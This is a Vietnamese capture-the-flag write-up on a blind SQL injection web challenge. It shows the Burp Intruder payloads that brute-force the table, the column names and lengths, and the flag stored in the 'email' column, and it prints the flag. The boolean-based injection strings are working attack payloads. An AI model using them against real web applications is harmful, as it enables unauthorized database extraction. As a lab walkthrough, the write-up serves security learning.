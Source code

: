 # WEB 2

Blind - SQL Injection

![](./img/1.png)

Từ khóa để nhận biết mỗi query đúng là `Username existed`

## Tìm tên bảng
khá là may mắn tôi đã thử các tên bảng: `ctfer` `users` `user` `flags` và tồn tại 1 bảng `user`

```sql
search=1'+or+'1'='1'+and+(select+'a'+from+user+limit+1)='a'--+-
```

![](./img/2.png)

## Tìm các cột

Tiếp theo đi tìm các cột của table `user`

### Tìm độ dài các cột
Trước hết nếu cột nào đó tồn tại trong bảng `user`, ta tìm được độ dài tên cột.

Sử dụng Intruder thực hiện truy vấn sau:
```sql
search=1'+or+'1'='1'+and+(select+'a'+from+information_schema.columns+where+table_name='user'and+length(column_name)=§1§+limit+1)='a'--+-
```
![](./img/3.png)

Ta tìm được độ dài các cột lần lượt là: `2, 4, 5, 6`

### Tìm tên các cột

Truy vấn:

```sql
search=1'+or+'1'='1'+and+(select+substring(column_name,§1§,1)+from+information_schema.columns+where+table_name='user'and+length(column_name)=2+limit+1)='§a§'--+-&save=
```
Với độ dài tên cột `length(column_name)=2` ta BruteForce được cột này có tên là `id`

Tương tự thay giá trị `length(column_name)=2` với các độ dài còn lại ta được:

- len = 4 => name
- len = 5 => email
- len = 6 => hidden


## Kiểm tra xem Flag nằm ở cột nào

Ban đầu tôi kiểm tra độ dài của cột `name` xem có nội dung nào có độ dài khả nghi không.

```sql
search=1'+or+'1'='1'+and+(select+'a'+from+user+where+length(name)=§1§+limit+1)='a'--+-
```

![](./img/4.png)

Sau đó tôi tìm thấy 1 nội dung có độ dài bằng 4, linh tính mách bảo đó là độ dài của chuỗi `flag`

Sau đó, tôi kiểm tra và có nội dung `flag` trong cột `name`:

```sql
search=1'+or+'1'='1'+and+(select+'a'+from+user+where+name='flag'+limit+1)='a'--+-
```
![](./img/5.png)

### Một chút tiết lộ
Thực ra lúc ấy tôi đã không nghĩ ngay đến chuỗi `flag`. Tôi đã brute chuỗi có độ dài bằng 4 trước:

```sql
search=1'+or+'1'='1'+and+(select+substring(name,§1§,1)+from+user+where+length(name)=4+limit+1)='§a§'--+-
```
![](./img/6.png)

Sắp xếp lại từ 1->4: `flag`

### Đi tìm nơi thực sự chứa flag

Giờ tôi đã biết:
- Cột `id` để đánh chỉ só
- Cột `name` có 1 hàng tên là `flag`

Vậy chắc chắn nội dung của flag nằm trong trường `email`, vì tôi đã thử với `hidden` chỉ có 1 giá trị đó là 0 hoặc 1.

Với truy vấn sau, ta đi kiểm tra mỗi ký tự của email với chuỗi `abcdefghijklmnopqrstuvwxyz0123456789{_}`

```sql
search=1'+or+'1'='1'+and+(select+substring(email,§1§,1)+from+user+where+name='flag'+limit+1)='§p§'--+-
```

![](./img/7.png)

Sắp xếp lại ta được kết quả: `PTITCTF{sqlmap_iz_c00l}`